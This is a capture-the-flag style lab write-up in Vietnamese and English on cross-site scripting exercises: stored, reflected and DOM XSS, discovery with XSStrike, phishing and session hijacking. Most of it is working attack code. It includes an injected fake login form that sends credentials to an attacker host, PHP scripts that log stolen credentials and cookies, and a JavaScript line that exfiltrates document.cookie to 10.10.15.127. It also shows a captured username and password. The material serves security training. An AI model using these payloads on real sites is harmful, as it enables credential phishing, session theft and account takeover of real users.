


# Stored XSS

#### Questions
+ 2  To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.

```js
<script>alert(document.cookie)</script>
```

# Reflected XSS

#### Questions
 To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.

```js
<script>alert(document.cookie)</script>
```

# DOM XSS

```js
<image src="" onerror=alert(document.cookie)>
```

# XSS Discovery

#### Questions

+ 2  Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?

```zsh
python3 /opt/XSStrike/xsstrike.py -u 'http://83.136.253.201:43077/?fullname=1&username=1&password=1&email=1%40gmail.com'
```


+ 2  What type of XSS was found on the above server? "name only"

`Reflections found: 1 ` So it should be reflected xss

# Phishing
#### Questions
+ 3  Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag

Tôi muốn xóa sạch mấy cái này đi.


```js
document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove()
```



Tiếp theo chúng ta sẽ test injected form

```html
<h3>Please login to continue</h3>
<form action=http://10.10.15.127>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```


Chúng ta nhận được username và password khi listen với nc


Khi này payload chính để lấy cắp thông tin sẽ là:


```js
document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form>')
```

Bạn có thể dùng `sudo nc -lvnp 80` hoặc dùng đoạn mã php dưới đây lưu vào index.php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.135.13/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Sau đó chạy lệnh

```zsh
sudo php -S 0.0.0.0:80
```

Ok giờ tôi sẽ tim payload mà web bị xss

```zsh
python3 /opt/XSStrike/xsstrike.py -u 'http://10.129.135.13/phishing/index.php?url=1'
```

Lưu ý payload có thể khác nhau

```zsh
[+] Payload: '><d3V%0donMousEovEr%09=%09(prompt)``>v3dm0s 
```

Hay nó sẽ như này:

```html
'><div onmouseover=prompt()>
```

Vậy tổng hợp lại payload của chúng ta sẽ như sau:

```html
'><div onmouseover=document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form>')>
```


Bị thừa một chút ở cuối...

```html
'><div onmouseover=document.getElementById('urlform')[0].remove();document.getElementsByTagName('img')[0].remove();document.write('<h3>Please login to continue</h3> <form action=http://10.10.15.127> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form> <!--')>
```

Perfect!


Lúc này tôi có url:

```url
http://10.129.135.13/phishing/index.php?url=%27%3E%3Cdiv+onmouseover%3Ddocument.getElementById%28%27urlform%27%29%5B0%5D.remove%28%29%3Bdocument.getElementsByTagName%28%27img%27%29%5B0%5D.remove%28%29%3Bdocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E+%3Cform+action%3Dhttp%3A%2F%2F10.10.15.127%3E+%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E+%3C%2Fform%3E+%3C%21--%27%29%3E
```

Truy cập vào `/phishing/send.php` và gửi url


Gửi url


```
Username: admin | Password: p1zd0nt57341myp455
```

# Session Hijacking

#### Questions
+ 2  Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.

Manual test until found payload


Parameter: `imgurl`

Payload tested:

```html
"><script src=http://10.10.15.127></script>
```

Now it's easily to get  the cookie:
Put this in the `payload.js`
```javascript
new Image().src='http://10.10.15.127/index.php?c='+document.cookie;
```

Put this in index.php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listener

```zsh
sudo php -S 0.0.0.0:80
```

Run payload

```html
"><script src=http://10.10.15.127/payload.js></script>
```


We can use burpsuite or cookie editor and go to `/hijacking/login.php`


# Skills Assessment

---

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

   


Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag

Đọc mã nguồn trước:


Tại đây `http://10.129.135.13/assessment/index.php/feed/`


Tiếp tục:

`http://10.129.135.13/assessment/index.php/2021/06/11/welcome-to-security-blog/`


Sẽ có 2 requests chính

Comment



Search


Auto test cho Search

```zsh
python3 /opt/XSStrike/xsstrike.py -u 'http://10.129.135.13/assessment/?s=2'
```

Chúng ta sẽ test thủ công với Comment.
Ngay ở lần thử đầu với parameter `url`:


Tạo file payload.js

Put this in the `payload.js`
```javascript
new Image().src='http://10.10.15.127/index.php?c='+document.cookie;
```

Put this in index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listener

```zsh
sudo php -S 0.0.0.0:80
```

Run payload

```html
"><script src=http://10.10.15.127/payload.js></script>
```


